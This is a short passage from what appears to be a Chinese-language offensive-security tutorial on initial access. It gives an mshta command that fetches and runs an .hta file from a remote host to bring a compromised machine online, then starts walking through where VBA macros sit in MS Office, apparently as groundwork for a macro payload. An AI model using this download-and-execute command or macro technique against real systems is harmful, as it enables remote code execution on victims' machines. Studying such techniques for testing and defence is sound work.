 执行上线很简单，使用 mshta 执行 .hta 文件即可。

```bash
mshta http://192.168.0.102:80/download/file.ext
```

#### MS Office Macro

微软 Office Word，Excel，PowerPoint 常说宏都是用 VBA（Visual Basic for Application）编写的，这个宏的作用是可以访问部分 Windows API 模拟键盘、鼠标等操作。

此功能在“视图 -> 查看宏”，英文也是“view → macros”。

![宏功能菜单位置.png](assets/1708583825-90342aa53823b390054e745ca3883192.png)

输入宏的名称，并选择宏用于哪个文档，这里选择的是“文档 1（文档）”，可以通过当前文档名确认就是当前文档。
